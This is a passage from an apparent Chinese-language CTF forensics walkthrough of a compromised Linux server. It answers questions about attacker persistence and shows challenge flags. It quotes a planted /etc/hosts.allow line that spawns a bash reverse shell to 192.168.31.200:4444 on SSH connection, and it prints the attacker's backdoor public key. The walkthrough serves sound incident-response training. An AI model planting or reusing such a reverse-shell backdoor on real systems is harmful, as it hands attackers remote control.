 ```plaintext
-rwxr-xr-x 1 root root 415 Oct  2  2023 /var/lib/dpkg/info/grub-pc.preinst
-rwxr-xr-x 1 root root 27K Oct  2  2023 /var/lib/dpkg/info/grub-pc.postinst
-rw-r--r-- 1 root root 21K Oct  2  2023 /var/lib/dpkg/info/grub-pc-bin.md5sums
-rwxr-xr-x 1 root root 336 Oct  2  2023 /var/lib/dpkg/info/grub-common.prerm
-rwxr-xr-x 1 root root 2.5K Oct  2  2023 /var/lib/dpkg/info/grub-pc.config
-rw-r--r-- 1 systemd-timesync systemd-timesync 0 Oct  2 03:14 /var/lib/systemd/timesync/clock
-rw-rw---- 1 root utmp 384 Oct  2 01:46 /var/log/btmp
-rw-r----- 1 root adm 23K Oct  2 00:00 /var/log/syslog.2.gz
-rw-r--r-- 1 root root 7.6K Oct  2 04:56 /boot/grub/grub.cfg
-rw-r--r--. 1 root root 7.4K Oct  2 04:56 /boot/grub/grub.cfg-bkup
```

在这份清单中进行排查，定位到文件 `/etc/hosts.allow`

```plaintext title="/etc/hosts.allow"
ALL: ALL: spawn (bash -c "/bin/bash -i>& /dev/tcp/192.168.31.200/4444 0>&1") & :allow
```

很明显是一个基于 SSH 登录就触发的反连后门

```flag
flag{/etc/hosts.allow}
```

## 10

> 黑客的后门公钥是什么？（提交公钥的 md5 值）

经过排查，在上文的结果中，定位到 `/root/.bash_h1story/.keys`

```plaintext
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPNKP3QL+i1safdsU6Zb2MuoBjZYreADjwhbP3dzZpjwx8aC7X1k9sb8IEKSjvsWxbb4nC7r/wzHKHo0bdnwdM6Risjniob6+0c4ImBzksxvnR3lJjQe5Hw+wi4+ynA/D3U19OazRxca5I1L6ONspSAa3s4sw2QoxbuBVFel+IKBzebp8K7VB3Kr3Zlry5NTd52Inn347zZWfb56olxRaHTJ6IXAJLeFmGT6R2nDul2lY8HWS2D5k8lDC9oNewTjtFKzPVi9rtDzGHxDc1+k3gKE2QkKUjBEYfeKmU+N5GmTT3tIYfrJSfWfxwDrCvvhqnf2wZQYtZCNf48C/opH8EhRBQrH/X94drX+eXJOmozQzKJfdidQshRwSKDff6w1gYk= xiaole@xiaoledeMacBook-Pro.local

d7bf0e27d6f533604250faceb28b6d4b
```

/etc/ssh/sshd_config

即可得到答案

```flag
flag{d7bf0e27d6f533604250faceb28b6d4b}
```

## 11

> 黑客注入的内存马代理是那种类型的？（如 flag\{frp\}）

继续解析流量
